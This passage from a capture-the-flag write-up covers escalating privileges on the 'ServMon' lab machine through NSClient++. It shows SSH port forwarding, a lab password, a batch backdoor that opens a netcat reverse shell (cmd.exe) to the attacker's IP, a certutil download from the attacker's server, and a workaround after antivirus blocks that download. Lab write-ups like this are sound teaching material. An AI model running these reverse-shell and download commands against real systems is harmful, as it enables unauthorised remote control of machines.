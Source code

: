 ```ini
; External script settings - General settings for the external scripts module (CheckExternalScripts).
[/settings/external scripts]
allow arguments = true
```

`allowed hosts = 127.0.0.1` tells us we can authenticate only from localhost.

But as we have an SSH access we can do some local port forwarding (you can read
about this technique on my [article about pivoting](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)).

```
$ ssh nadine@10.10.10.184 -L 127.0.0.1:9999:127.0.0.1:8443 -N
```

We map the local port 8443 on ServMon machine to local port 9999 on our machine.

Now we should be able to authenticate at https://127.0.0.1:9999/ with password
`ew2x6SsGTxjRwXOT`.

Now the exploit tell us to enable some modules:

- CheckExternalScripts
- Scheduler

Now let's prepare our backdoor script: `noraj.bat`

```bat
@echo off
c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe
```

We can try to download the bat script with [Certutil](https://lolbas-project.github.io/lolbas/Binaries/Certutil/#download)
and a local HTTP server.

```
$ python -m http.server --bind 10.10.15.26
```

But that's a failure:

```
PS C:\Users\Nadine> cd C:\temp

PS C:\temp> certutil.exe -urlcache -split -f http://10.10.15.26:8000/noraj.bat noraj.bat
At line:1 char:1
+ certutil.exe -urlcache -split -f http://10.10.15.26:8000/noraj.bat no ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

We can't download our script because it's blocked by an AV. So let's create is on
the server directly.

```
PS C:\temp> echo "@echo off" > noraj.bat
PS C:\temp> echo "c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe" >> noraj.bat
PS C:\temp> gc noraj.bat
@echo off
c:\temp\nc.exe 10.10.15.26 8888 -e cmd.exe
```
